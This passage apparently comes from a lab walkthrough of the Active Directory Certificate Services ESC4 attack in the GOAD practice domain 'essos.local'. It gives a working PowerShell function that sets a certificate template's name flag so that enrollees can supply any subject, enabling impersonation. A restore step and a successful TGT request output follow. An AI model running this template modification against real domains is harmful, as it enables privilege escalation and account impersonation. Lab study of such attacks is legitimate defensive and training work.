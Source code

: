 ```bash

[+] TGT request successful!

# Restore original template (cleanup)
$template = Get-ADObject "CN=ESC4,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local"
Set-ADObject $template.DistinguishedName -Replace @{"msPKI-Certificate-Name-Flag"=0}

[*] Template ESC4 restored to original configuration
```

### PowerShell Template Modification

Here's a more robust script for template modification in GOAD:

```bash
function Modify-CertificateTemplate {
    param(
        [string]$TemplateName,
        [switch]$EnableSubjectAltName,
        [switch]$Restore,
        [string]$Domain = "essos.local"
    )
    
    $configPath = "CN=Configuration," + (Get-ADDomain -Identity $Domain).DistinguishedName
    $templatePath = "CN=$TemplateName,CN=Certificate Templates,CN=Public Key Services,CN=Services,$configPath"
    
    try {
        $template = Get-ADObject $templatePath -Properties "msPKI-Certificate-Name-Flag"
        
        if ($Restore) {
            # Restore to secure setting
            Set-ADObject $template.DistinguishedName -Replace @{"msPKI-Certificate-Name-Flag"=0}
            Write-Host "[+] Template $TemplateName restored to secure configuration"
        } else {
            # Enable ENROLLEE_SUPPLIES_SUBJECT
            Set-ADObject $template.DistinguishedName -Replace @{"msPKI-Certificate-Name-Flag"=1}
            Write-Host "[+] Template $TemplateName modified to enable subject specification"
        }
        
        # Wait for AD replication
        Write-Host "[*] Waiting for AD replication..."
        Start-Sleep -Seconds 30
        
    } catch {
        Write-Error "Failed to modify template: $($_.Exception.Message)"
    }
}

# Usage in GOAD environment
Modify-CertificateTemplate -TemplateName "ESC4" -EnableSubjectAltName -Domain "essos.local"
# ... perform attack ...
Modify-CertificateTemplate -TemplateName "ESC4" -Restore -Domain "essos.local"
```
